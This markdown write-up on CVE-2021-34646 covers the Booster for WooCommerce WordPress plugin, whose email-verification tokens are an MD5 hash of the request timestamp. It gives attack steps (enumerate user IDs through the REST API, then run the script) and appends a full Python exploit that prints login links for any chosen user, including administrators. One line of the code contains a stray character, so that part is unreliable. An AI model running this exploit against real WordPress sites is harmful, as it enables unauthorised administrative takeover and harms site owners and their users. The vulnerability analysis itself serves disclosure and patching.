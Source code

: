 # CVE-2021-34646

Versions of the Booster for WooCommerce WordPress plugin up to and including 5.4.3 have a security vulnerability related to authentication bypass. This vulnerability stems from a weakness in the random token generation process within the "reset_and_mail_activation_link" function. Exploiting this vulnerability enables malicious actors to impersonate users and trigger email address verification for arbitrary accounts, including those with administrative privileges. Consequently, attackers can automatically log in as the targeted user, including site administrators.

## CVE Explanation

A critical vulnerability was discovered in the WordPress plugin known as "Booster for WooCommerce" (CVE-2021-34646). When the plugin's Email Verification module was activated along with the "Login User After Successful Verification" setting, it exposed a severe security flaw. This vulnerability allowed malicious actors to gain unauthorized access to the website by impersonating any user, ranging from regular users to administrative accounts. The root cause of this issue was a weakness in the token generation process within the "reset_and_mail_activation_link" function, located in the "~/includes/class-wcj-emails-verification.php" file.

The primary issue with the plugin centered around the generation of verification tokens required to validate email addresses. Specifically, the code employed a simplistic MD5 hash of the timestamp when the request was initiated. Consequently, an attacker could easily replicate the verification code for any user account by determining the timestamp of their request.

Moreover, additional design flaws were present on the website. One notable issue was the inadvertent disclosure of the software stack used by the webpage. This disclosure inadvertently assisted attackers in identifying potential vulnerabilities in the project.

<div style="text-align:center;">
![wordpress info](images/image.png)
</div>

Furthermore, there was an oversight in the password recovery process. When attempting to recover a password with only the user's email address and clicking the submit button, the system provided distinct success or error messages. This inconsistency in responses, regardless of whether the account existed or not, inadvertently leaked valuable information to potential attackers, thereby aiding them in targeting the website.

In summary, this critical vulnerability presented an opportunity for attackers to exploit the website with the objective of gaining administrative access and subsequently taking control of it.

## Attack step-by-step
To attack this vulnerability, all that is needed is to download the source code below. It is a python exploit that generates login tokens based on timestamps and constructs URLs that can potentially grant unauthorized access to the targeted WordPress site. To use the exploit, one must simply access the target websites REST API endpoint, as described in the source code, and retrieve user data, more specifically, their IDs.
Then, the hacker only needs to run the script with two parameters, the target website's URL and the desired user's ID, gaining access to the user's account.

## Appendix A - Source Code

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)


def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]j

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")

```
